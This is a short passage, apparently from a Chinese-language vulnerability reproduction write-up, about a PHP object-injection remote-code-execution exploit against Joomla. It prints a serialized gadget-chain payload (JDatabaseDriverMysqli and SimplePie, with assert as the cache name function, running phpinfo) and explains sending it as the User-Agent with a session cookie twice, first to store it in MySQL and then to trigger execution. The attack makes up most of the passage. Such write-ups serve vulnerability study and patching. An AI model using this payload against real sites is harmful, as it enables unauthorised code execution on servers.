 ![image](../img/df58ede1c344c92d2227d3d47483bad2.png)

```
123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}? 
```

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![image](../img/02f94cb422b17d7b49187d286561509e.png)
